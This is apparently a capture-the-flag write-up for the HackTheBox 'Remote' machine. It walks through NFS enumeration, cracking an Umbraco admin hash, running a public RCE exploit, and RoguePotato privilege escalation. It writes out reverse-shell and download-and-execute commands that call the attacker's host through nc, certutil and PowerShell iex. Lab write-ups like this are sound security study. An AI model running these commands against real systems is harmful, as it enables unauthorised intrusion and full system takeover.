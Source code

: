 # Remote [HTB]()
![remote-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/remote-01.png)

## Recon

Let's start enumerating the target with:

```bash
nmap -p- --min-rate 10000 remote.htb
```

After we get the ports we can query the service verisons with:

```bash
nmap -p 21,80,111,135,139,445,2049,5985,47001 -sCV remote.htb -oN nmap.result # I Left out some RPC related ports 
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/nmap-res-02.png)

We have the following:

+ A Microsoft FTPd server on port 21.
+ An HTTP server on port 80.
+ An rpcbind endpoint on port 111.
+ An rpc endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ A possible NFS share on port 2049.
+ Two HTTPAPI ports at 5985 & 47001.

Quite a large attack surface. It appears that the FTP server is allowing anonymous logins so let's start with that. Afterwards, we can take a look at the NFS share on port 2049, as the NFS protocol doenst have any authintication or authorization. Then we can take a look at the SMB and HTTP servers. 

## FTP Port 21

After connecting anonymously to the server I ran `ls` to list out the contents but it came out empty:

![ftp-empty-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ftp-empty-03.png)

I then tried to download any possible files from the server using this one liner:

```bash
wget -m ftp://anonymous:anonymous@remote.htb
```

But this came out empty as well so i decided to move on to the NFS share. 

## NFS Port 2049 & 111.

If we list out the rpc info using `rpcinfo remote.htb`:

![rpcinfo-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/rpcinfo-04.png)

We can see that we have `nfs` listening on `0.0.0.0`, which means we have a network share out there. We can verify this with 

```bash
showmount -e remote.htb
``` 

![showmount-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/showmount-05.png)

We have `/site_backups` publicly avialbale to anyone. We can mount this on our local machine with:

```bash
mkdir /mnt/remote.htb
mount -o rw,vers=2 remote.htb:/site_backups /mnt/remote.htb
```

If we `cd` into this directory and run `ls` we can the following:

![dir-tree-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/dir-tree.png)

Looks like a backup directory tree of an IIS server. We also see the word `Umbraco` here as well. [Umbraco](https://en.wikipedia.org/wiki/Umbraco) is an open-source CMS platform built on Microsoft .NET framework and designed to work on IIS servers.  

I started by taking a look at `Web.Config`. On line 44 I found the version number:

![ver-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ver-07.png)

I searched online and found an [RCE exploit](https://github.com/Jonoans/Umbraco-RCE) for this version, but we need to be authinticated to pull it off. So i decided to keep looking around the filesystem. 

I started to dig into every file, but I was rather lost, so I to search online for information about juicy Umbraco files. And that's where I found [this post](https://our.umbraco.com/forum/core/general/47400-How-does-Umbraco-store-its-data#:~:text=The%20content%20data%20is%20stored,file%20at%20%2FApp_Data%2Fumbraco.) that mentioned a database at `App_Data/Umbraco.sdf`. So I decided to look for ways to open this file.

I tried to use online sites to convert it to `csv` as well as different forms of databases like `MySQL` and `MariaDB` but nothing worked. I also tried `christianhelle`'s [sqlcequery](https://github.com/christianhelle/sqlcequery) tool to open sdf files but it didnt work either. 

So instead I ran `strings` on it to see what I can extract:

![strings-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/strings-08.png)

This looks important. I see two user accounts here, `admin` and `smith`, as well as two hashing algorithms, `SHA-1` and `HMAC-SHA256`. I decided to go for the admins password first. 

I cracked it with the following syntax:

```bash
hashcat -m 100 -a 0 "b8be16afba8c314ad33d812f22a04991b90e2aaa" rockyou.txt
```
![pass-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/pass-09.png)

The admin's password is `baconandcheese`. Lets try to log in. 


## HTTP Port 80.

At first I opend the site at `http://remote.htb` :

![site-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/site-10.png)

Ok, not much here. Let's run a directory scan with:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://remote.htb/FUZZ -e .cgi,.js,.txt,.xml,.aspx
```

![install-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/install-11.png)

This sounds interesting and it also gave us a redirect. Lets see where this leads:

![login-page-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/login-page-12.png)

It redirected us to `http://remote.htb/umbraco/#/login`. At first I tried authenticating with `admin : baconandcheese` but this failed. I tried different usernames until I found that `admin@htb.local` works:

![admin-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/admin-13.png)

This username was also mentioned later down in the `Umbraco.sdf` file. 

## Initial-Access Exploit

After reveiwing the [source code](https://github.com/Jonoans/Umbraco-RCE/blob/master/exploit.py#L76) of the exploit for a bit, it's seems ready to go. We just need to install the exploit with:

```bash
git clone https://github.com/Jonoans/Umbraco-RCE
cd Umbraco-RCE
pip install -r requirements.txt
chmod +x exploit.py
```

Then we can run the exploit with:

```bash
./exploit.py -u admin@htb.local -p baconandcheese -w http://remote.htb/ -i 10.10.14.39
```
Where: 

+ `-u` and `-p` are for the usrename and password values. 
+ `-w` is for the target url.
+ `i` is the loacl IP for the reverese shell. 


Which gives us initial access to the target:

![shell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-14.png)

However this shell gave me lots of issues, it was quite unstable. So I hosted `nc.exe` on my Kali machine via a python web server, downloaded it to the target and connected back to my kali with:

```cmd
cd c:\\windows\temp
certutil -urlcache -f http://10.10.14.39/nc.exe nc.exe
.\nc.exe -e cmd.exe 10.10.14.39 443
```

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-15.png)

## Privilege Escalation

After landing on the machine, I started hunting for quick wins. First, I looked at our user's privileges with:

```cmd
whoami /priv
```

![privs-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/priv-16.png)

Looks like we have the `Impersonate` privilege enabled which means we can try to pull off a potato attack. However if we take a look at the target OS we will see it is running a 2019 Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![os-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/os-17.png)

So `JuicyPotato` wont work here. Instead we can use [RoguePotato](https://github.com/antonioCoco/RoguePotato) which can download a compiled version [here](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe). 

Once we have Rogue-Potato on our Kali, we need to transfer it over to the target using a python server:

```bash
python3 -m http.server 80
```

Now we can download Rogue-Potao to the target with:

```cmd
certutil -urlcache -f http://10.10.14.39/RoguePotato.exe rp.exe
```

Next, we need to setup `socat` to run on port 135 on our Kali machine and redirect it back to `remote` on port 9999:

```bash
socat tcp-listen:135,reuseaddr,fork tcp:10.129.231.183:9999
```

Now we can execute `Rogue-Potato`. At first I tried executing `nc` to get a shell:

```cmd
.\rp.exe -r 10.10.14.39 -e "c:\\Windows\\Temp\nc.exe -e cmd.exe 10.10.14.39 9001" -l 9999
```

Rogue-Potato succesfully executed, but I didnt get a shell. So instead I decided to go for a different approach with nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script. Make sure to invoke the script at the end:

![invoke-17.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/invoke-17.5.png)

I hosted this file with a python server, and started my listener with:

```bash
rlwrap nc -lnvp 9001
```

Then, I executed Rogue-Potato once again with:

```cmd
.\rp.exe -r 10.10.14.39 -e "powershell -c iex( iwr http://10.10.14.39/shell.ps1 -UseBasicParsing)" -l 9999
```

This gave me a shell as the SYSTEM:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/root-18.png)

